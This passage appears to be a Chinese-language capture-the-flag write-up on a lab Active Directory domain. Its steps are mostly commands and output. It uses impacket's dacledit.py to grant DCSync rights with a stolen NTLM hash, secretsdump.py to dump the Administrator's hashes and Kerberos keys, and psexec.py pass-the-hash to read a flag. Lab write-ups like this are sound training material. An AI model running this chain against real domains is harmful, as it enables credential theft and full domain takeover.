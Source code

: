 [https://github.com/fortra/impacket](https://github.com/fortra/impacket)​

在kali：

```bash
python dacledit.py xiaorang.lab/chenglei -hashes :0c00801c30594a1b8eaa889d237c5382 -action write -rights DCSync -principal chenglei -target-dn 'DC=xiaorang,DC=lab' -dc-ip 172.22.13.6
```

用之前抓到的 ntml 修改 acl，让他拥有 DCSync 权限

利用 DCSync 导出域控的凭据

```bash
python3 secretsdump.py  xiaorang.lab/chenglei@172.22.13.6 -hashes :0c00801c30594a1b8eaa889d237c5382  -just-dc-user administrator
```

‍

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a::: 
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:d0f9c9b1bea5b90f9547952d2009bda6e1aab23ff2862bf9afb2be793709f0cd
Administrator:aes128-cts-hmac-sha1-96:afeaadd6987386ed1e8938fb9e167e6c
Administrator:des-cbc-md5:cb584c08e308a4ae
```

‍

然后 PTH 拿到 flag

```bash
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a administrator@172.22.13.6
```

‍

```bash
type C:\Users\Administrator\flag\flag04.txt
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217180719-89tn2pz.png?imageSlim)​

‍

‍

